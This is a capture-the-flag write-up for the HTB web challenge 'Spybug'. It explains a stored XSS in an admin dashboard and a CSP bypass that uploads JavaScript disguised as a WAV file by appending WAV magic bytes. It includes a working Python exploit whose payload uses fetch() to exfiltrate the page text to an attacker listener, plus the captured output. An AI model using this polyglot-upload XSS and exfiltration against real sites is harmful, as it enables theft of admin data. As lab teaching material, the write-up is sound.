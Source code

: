 # [Web - medium] Spybug

This webapp consists in an API written in JS, allowing agents (an agent is a tuple (hostname,platform,arch)) to register themselves, and upload WAV sounds to the `/uploads` folder. There is also a bot loggin in as admin every minute and checking the main dashboard which displays agent information.

The admin username contains the flag and is displayed in the dashboard as welcome message.

This challenge consists in exploiting 2 vulnerabilities:

- the agent information is displayed as-is in the dashboard: it is vulnerable to XSS, which will be triggered by the admin bot every minute. However the webapp is using CSP (Content Security Policy) with `script-src 'self'`: the XSS must only include local file scripts. That's where the second vulnerability will be useful
```
				tbody
					each agent in agents
						tr
							td= agent.identifier
							td !{agent.hostname}
							td !{agent.platform}
							td !{agent.arch}
```
```js
application.use((req, res, next) => {
  res.setHeader("Content-Security-Policy", "script-src 'self'; frame-ancestors 'none'; object-src 'none'; base-uri 'none';");
```
- the uploaded WAV sounds in `/uploads` can be anything, as long as:
  - the uploaded file contains (anywhere in the file) the WAV magic bytes
  - the content type is `audio/wave`
  - the filename ends with `.wav`
```js
const multerUpload = multer({
  storage: storage,
  fileFilter: (req, file, cb) => {
    if (
      file.mimetype === "audio/wave" &&
      path.extname(file.originalname) === ".wav"
[...]
router.post(
  "/agents/upload/:identifier/:token",
  authAgent,
  multerUpload.single("recording"),
  async (req, res) => {
    if (!req.file) return res.sendStatus(409);
    const filepath = path.join("./uploads/", req.file.filename);
    const buffer = fs.readFileSync(filepath).toString("hex");
    if (!buffer.match(/52494646[a-z0-9]{8}57415645/g)) {
        fs.unlinkSync(filepath);
      return res.sendStatus(400);
    }
    await createRecording(req.params.identifier, req.file.filename);
    res.send(req.file.filename);
```
The path to victory is to:

- register a new agent, get its `uuid`
- upload the agent WAV file using that `uuid`. The WAV file will be in fact a Javascript script exfiltrating (using `fetch()`) the content of the admin dashboard, but meets all the upload requirements. The most difficult is that the file must contain the WAV magic bytes `/52494646[a-z0-9]{8}57415645/g`. It can be anywhere in the file, so at the end of the Javascript file as comment is fine.
- update the agent information, so that the `hostname` is the XSS including the uploaded file
- use a HTTP listener to get the exfiltrated page content

The final script is:

```python
import requests
import json

endpoint = "http://68.183.37.122:30812"

s = requests.Session()
response = s.get(endpoint + '/agents/register')
agent = json.loads(response.text)
print(agent)
identifier = agent['identifier']
token = agent['token']

js_payload = "fetch('http://1.2.3.4:4444/exfil' + '?' + document.body.textContent);//"
files={'recording': ('aaa.wav', js_payload.encode('utf8') + bytearray.fromhex('52494646aaaaaaaa57415645'), 'audio/wave')}
response = s.post(endpoint + '/agents/upload/{}/{}'.format(identifier, token), files=files)
javascript = response.text

details = {
    'hostname': "<script src='/uploads/{}'></script>".format(javascript),
    'platform': "bbb",
    'arch': 'bbb'
}

response = s.post(endpoint + '/agents/details/{}/{}'.format(identifier, token), json = details)
print(response.text)
```

And its output:

```bash
$ python lol.py
{'identifier': 'aa9cbafb-16c9-4426-8720-40964e6449fa', 'token': '51ac9a77-cc46-416c-863b-f752c442e6d5'}
OK
```

And waiting for our XSS callback from the admin bot:

```bash
pi@raspberrypi:/tmp/lol $ python -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
68.183.37.122 - - [25/Mar/2023 07:41:38] code 404, message File not found
68.183.37.122 - - [25/Mar/2023 07:41:38] "GET /exfil?%C2%A0Spybug%20v1Log-outWelcome%20back%20HTB{p01yg10t5_4nd_35p10n4g3}%C2%A0AgentsIDHostnamePlatformArchaa9cbafb-16c9-4426-8720-40964e6449fa HTTP/1.1" 404 -
```
